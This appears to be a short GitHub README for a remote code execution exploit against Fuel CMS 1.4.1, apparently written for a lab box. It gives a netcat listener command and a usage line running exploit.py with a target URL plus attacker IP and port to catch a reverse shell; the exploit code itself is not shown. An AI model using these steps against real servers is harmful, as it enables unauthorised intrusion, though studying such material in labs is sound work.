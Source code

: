 # Fuel-CMS-1.4.1 RCE
Fuel-CMS-1.4.1 using NC

Start a listener on a port of your choice. 

Example:

```
nc -lvnp 4444
```

Usage example:

```
python3 exploit.py <target-url> <attacker-ip> <attacker-port>
python3 exploit.py http://10.10.84.101 10.10.100.213 4444
```

![Screenshot 2025-04-02 160510](https://github.com/user-attachments/assets/9a1e9556-1b7e-4447-9348-9bd47882bd19)
